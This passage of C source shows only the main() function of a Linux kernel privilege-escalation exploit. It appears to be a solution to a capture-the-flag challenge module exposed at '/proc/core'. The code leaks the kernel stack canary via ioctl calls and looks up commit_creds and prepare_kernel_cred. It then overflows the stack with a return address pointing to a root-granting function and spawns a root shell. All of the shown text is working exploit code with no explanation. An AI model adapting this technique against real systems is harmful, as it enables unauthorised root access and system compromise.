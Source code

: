 ```c
}

int main(int argc,char ** argv)
{
    int fd = open("/proc/core",O_RDWR);
    unsigned long long buf[64];

    unsigned int off_set_cmd = 0x6677889C;
    unsigned int read_cmd = 0x6677889B;
    unsigned int core_copy_func_cmd = 0x6677889A;

    //first setting off = 64
    int off = 64;
    ioctl(fd,off_set_cmd,64);

    //call read to leak canary
    ioctl(fd,read_cmd,buf);

    for (int i=0;i<64;i++)
    {
        printf("%016llx ",buf[i]);

    }
    printf("\n");
    unsigned long long canary = buf[0];
    ret_addr = buf[2];
    printf("get canay is:%016llx\n",canary);


    //set commit_cred and prepare_kernel_cred address
    commit_cred_addr = get_commit_cred_addr();
    prepare_kernel_cred_addr = get_prepare_kernel_cred_addr();
    printf("commit_cred:%016llx\n",commit_cred_addr);
    printf("prepare_kernel_cred:%016llx\n",prepare_kernel_cred_addr);
    //promote_root(commit_cred_addr,prepare_kernel_cred_addr);

    unsigned long long name_payload[11];
    memset(name_payload,0x90,sizeof(name_payload));
    name_payload[8] = canary;//canary
    name_payload[10] = &promote_root;//rip
    printf("promote_root:%016llx\n",name_payload[10]);
    printf("name_payload_len:%u\n",sizeof(name_payload));
    //set name
    write(fd,name_payload,sizeof(name_payload));

    //triger stack mash and excute shellcode to promote to root
    long long len = -65448;//unsigned short len =88
    ioctl(fd,core_copy_func_cmd,len);
    //we are root now
    system("/bin/sh");
    sleep(2);

    return 0;
}
```
